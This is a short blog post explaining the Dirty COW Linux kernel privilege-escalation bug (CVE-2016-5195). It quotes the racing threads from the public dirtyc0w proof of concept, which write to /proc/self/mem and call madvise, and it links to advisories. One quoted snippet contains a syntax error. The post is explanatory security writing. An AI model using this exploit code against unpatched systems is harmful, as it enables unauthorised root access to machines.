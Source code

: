 ```yaml
---
title: Dirty COW (CVE-2016-5195)
date: 2022-02-19 21:50:00
tags:
    - linux
    - COW
    - anusO1
category: tech
keywords:
  - dirtycow
---
```


## author: [[anusO1]](https://github.com/calebrwalk5)

## Details about "Dirty Cow" (CVE-2016-5195)

## COW (Copy on Write)

Copy on Write is an optimization technique that allows virtual pages of memory in different processes, which have identical content to map to the same physical memory pages. If one of the processes writes to one of these shared pages, the data is copied to a new physical page and the virtual-to-physical-memory mappings are updated according to the changes. This techniqie is used (and abused) in many different scenarios.

## Vulnerability

"Dirty Cow" (CVE-2016-5195) is a privilege escelation vulnerability in the Linux kernel. Here we are looking at the ["dirtyc0w PoC"](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
```
map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```
It starts two threads. One thread opens /proc/self/mem read-write and loops millions of times writing the data specified on the command-line to it at the offset of the mmap’ed file.  /proc/self/mem is an entry in the procfs virtual file system which gives access to the pages of a current process’s virtual memory.

```
void *procselfmemThread(void *arg) {
	char *str;
	str=(char*)arg;
	int f=open("/proc/self/mem",O_RDWR);
	int i,c=0;
	for(i=0;i<100000000;i++) {
		lseek(f,(uintptr_t) map,SEEK_SET);
		c+=write(f,str,strlen(str));
	}
	printf("procselfmem %d\n\n", c);
}
```
This writes to /proc/self/mem and triggers COWs, but these pages are marked a private, and the memory pages will not be written back to the mapped file. However, the other thread loops, again millions of times, calling the madvise(2) system call on the same offset with the flag MADV_DONTNEED which tells the kernel to discard the pages that are mmap’ed.
```
void *madviseThread(void *arg) {
	char *str;
	str(char*)arg;
	int i,c=0;
	for(i=0;i<100000000;i++) {
		c+=madvise(map,100,MADV_DONTNEED);
	}
	printf("madvise %d\n\n",c);
}
```

## Who found the "Dirty Cow" vulnerability?

[Phil Oester](https://access.redhat.com/security/cve/CVE-2016-5195) found it in October of 2016

## More Info

[Debian](https://security-tracker.debian.org/tracker/CVE-2016-5195)
[dirtycow.ninja](https://dirtycow.ninja)
[Wikipedia](https://en.wikipedia.org/wiki/Dirty_COW)
